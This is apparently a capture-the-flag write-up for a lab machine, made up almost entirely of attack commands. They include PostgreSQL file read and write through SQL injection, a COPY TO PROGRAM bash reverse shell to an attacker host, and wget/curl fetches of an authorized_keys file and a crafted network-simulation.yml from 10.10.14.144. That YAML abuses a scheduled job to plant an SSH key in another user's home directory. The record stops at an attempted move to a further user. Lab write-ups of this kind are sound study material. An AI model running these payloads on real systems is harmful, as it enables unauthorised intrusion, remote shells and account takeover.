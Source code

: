 `select encode(pg_read_binary_file('file'), 'base64'); `

**File write:**

`COPY (SELECT 'test') TO '/tmp/file';`

# Shell as postgres

`copy (SELECT '') to program 'bash -c \"bash -i >& /dev/tcp/{ip}/{port} 0>&1\"';`

Script **injection.py** automates it:

`python3 injection.py shell 10.10.14.144 9001`

**Interesting directory:** `/usr/share/grafana`

# Enumeration

**Files owned by juno:**

```
/dev/shm/shadow.data
/dev/shm/shadow.data/sim-stats.json
/dev/shm/shadow.data/hosts
/dev/shm/shadow.data/hosts/server
/dev/shm/shadow.data/*
/dev/shm/network-simulation.yml
/home/juno
/run/user/1000
/var/crash/_usr_bin_bash.1000.crash
```

# Shell as juno

First `cd /dev/shm/b0 && wget http://10.10.14.144:8000/authorized_keys && chmod 777 . && chmod 777 authorized_keys`

Then run a few second before a full minute:

`curl http://10.10.14.144:8000/network-simulation.yml > /dev/shm/network-simulation.yml`

```
- path: /usr/bin/touch
      args: /dev/shm/b0/DONE4
      start_time: 1s
- path: /usr/bin/cp
      args: /dev/shm/b0/authorized_keys /home/juno/.ssh/authorized_keys
      start_time: 3s
```

**SSH:** `ssh -i id_rsa juno@10.10.11.216`

`user.txt: <redacted>`

# Trying to hop to jovian
